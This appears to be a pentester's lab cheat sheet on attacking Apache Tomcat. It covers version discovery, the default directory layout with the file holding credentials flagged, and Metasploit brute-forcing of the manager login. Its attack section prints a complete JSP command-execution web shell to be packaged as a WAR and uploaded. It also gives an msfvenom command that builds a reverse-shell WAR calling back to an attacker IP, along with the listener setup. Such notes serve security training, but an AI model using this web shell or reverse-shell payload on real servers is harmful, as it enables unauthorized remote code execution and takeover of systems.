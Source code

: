 #java
# Discovery
```bash
# version
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
```
Default folder structure
```
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml # creds, allow/deny access to pages by roles
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work  # cache
    └── Catalina
        └── localhost
```  
webapp folder structure
```bash
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml                   # routes 
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class  
```
# Enumeration
Endpoints which can lead to RCE:
```
/manager
/host-manager
```
# Attack
## Login Bruteforce
https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/
```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

# for burp suite debugging
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set PROXIES HTTP:127.0.0.1:8080
```
## Tomcat Manager - WAR File Upload
browse to http://web01.inlanefreight.local:8180/manager/html and enter the credentials
War can be create with zip utility
Create War file containing jsp shell and upload it.
shell
```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```
or metasploit
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

upload war file

use multi/handler
set lhost 10.10.14.15
set lport 4443
run
```

